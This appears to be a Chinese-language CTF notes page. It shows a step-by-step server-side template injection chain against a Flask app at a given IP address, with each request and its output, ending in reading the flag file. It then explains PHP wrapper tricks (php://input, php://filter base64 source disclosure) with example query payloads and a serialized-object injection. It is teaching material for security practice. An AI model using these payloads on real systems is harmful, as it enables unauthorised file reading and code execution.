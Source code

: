```php
http://220.249.52.133:52133/{{''.__class__.__mro__[2].__subclasses__}}
# 提示我们__subclasses__是一个内置方法，所以需要加括号执行
# URL http://220.249.52.133:52133/<built-in method __subclasses__ of type object at 0x8f8740> not found

http://220.249.52.133:52133/{{''.__class__.__mro__[2].__subclasses__()}}
# object的子类太多，就不列举了，我们找到了file
# URL http://220.249.52.133:52133/[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>...] not found

http://220.249.52.133:52133/{{''.__class__.__mro__[2].__subclasses__()[71]}}
# URL http://220.249.52.133:52133/<class 'site._Printer'> not found

http://220.249.52.133:52133/{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__}}
# URL http://220.249.52.133:52133/{'traceback': <module 'traceback' from '/usr/lib/python2.7/traceback.pyc'>, 'setencoding': <function setencoding at 0x7fabe2ab3410>, 'sethelper': <function sethelper at 0x7fabe2ab3230>, 'execsitecustomize': <function execsitecustomize at 0x7fabe2ab3488>...}

http://220.249.52.133:52133/{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os']}}
# URL http://220.249.52.133:52133/<module 'os' from '/usr/lib/python2.7/os.pyc'> not found

http://220.249.52.133:52133/{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].listdir('.')}}
# URL http://220.249.52.133:52133/['fl4g', 'index.py'] not found

http://220.249.52.133:52133/{{''.__class__.__mro__[2].__subclasses__()[40]}}
# URL http://220.249.52.133:52133/<type 'file'> not found

http://220.249.52.133:52133/{{''.__class__.__mro__[2].__subclasses__()[40]('./fl4g').read()}}
# URL http://220.249.52.133:52133/ctf{f22b6844-5169-4054-b2a0-d95b9361cb57} not found
```

## php伪协议

php:// — 访问各个输入/输出流（I/O streams）

* **php://input** 是个可以访问请求的原始数据的只读流.CTF中经常使用`file_get_contents`获取`php://input`内容\(POST\)，需要开启`allow_url_include`，并且当`enctype="multipart/form-data"`的时候 **php://input是无效**的。
  * **利用方式：**`?file=php://input` 数据利用`POST`传过去
  * 碰到**file\_get\_contents\(\)**就要想到用**php://input**绕过，因为php伪协议也是可以利用http协议的，即可以使用POST方式传数据。

    ```php
    ?user=php://input&file=php://filter/convert.base64-encode/resource=class.php
    ?user=php://input&file=php://filter/convert.base64-encode/resource=index.php
    ?user=php://input&file=class.php&pass=O:4:%22Read%22:1:{s:4:%22file%22;s:8:%22f1a9.php%22;}
    ```
* **php://output** 是一个只写的数据流， 允许你以print和 echo 一样的方式 写入到输出缓冲区。
* **php://filter** 是一种元封装器， 设计用于数据流打开时的筛选过滤应用。 这对于一体式（all-in-one）的文件函数非常有用，类似 readfile\(\)、 file\(\) 和 file\_get\_contents\(\)， 在数据流内容读取之前没有机会应用其他过滤器
